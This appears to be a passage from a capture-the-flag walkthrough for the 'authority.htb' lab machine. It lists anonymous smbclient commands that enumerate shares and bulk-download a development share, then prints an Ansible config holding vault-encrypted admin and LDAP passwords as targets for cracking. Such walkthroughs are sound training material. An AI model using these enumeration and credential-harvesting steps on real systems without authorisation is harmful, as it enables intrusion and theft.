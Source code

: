 ```bash
smbclient '//authority.htb/Department Shares' -N -c 'ls'
```
-> `NT_STATUS_ACCESS_DENIED listing \*`

```bash
smbclient '//authority.htb/Development' -N -c 'ls'
```
```log
Automation                          D        0  Fri Mar 17 14:20:40 2023
```
```bash
smbclient '//authority.htb/Development' -N -c 'mask "";recurse ON;prompt OFF;mget *'
```

```bash
cat ./Automation/Ansible/PWM/defaults/main.yml
```
```yml
---
pwm_run_dir: "{{ lookup('env', 'PWD') }}"

pwm_hostname: authority.htb.corp
pwm_http_port: "{{ http_port }}"
pwm_https_port: "{{ https_port }}"
pwm_https_enable: true

pwm_require_ssl: false

pwm_admin_login: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          32666534386435366537653136663731633138616264323230383566333966346662313161326239
          6134353663663462373265633832356663356239383039640a346431373431666433343434366139
          35653634376333666234613466396534343030656165396464323564373334616262613439343033
          6334326263326364380a653034313733326639323433626130343834663538326439636232306531
          3438

pwm_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          31356338343963323063373435363261323563393235633365356134616261666433393263373736
          3335616263326464633832376261306131303337653964350a363663623132353136346631396662
          38656432323830393339336231373637303535613636646561653637386634613862316638353530
          3930356637306461350a316466663037303037653761323565343338653934646533663365363035
          6531

ldap_uri: ldap://127.0.0.1/
ldap_base_dn: "DC=authority,DC=htb"
ldap_admin_password: !vault |
          $ANSIBLE_VAULT;1.1;AES256
          63303831303534303266356462373731393561313363313038376166336536666232626461653630
          3437333035366235613437373733316635313530326639330a643034623530623439616136363563
          34646237336164356438383034623462323531316333623135383134656263663266653938333334
          3238343230333633350a646664396565633037333431626163306531336336326665316430613566
          3764
```
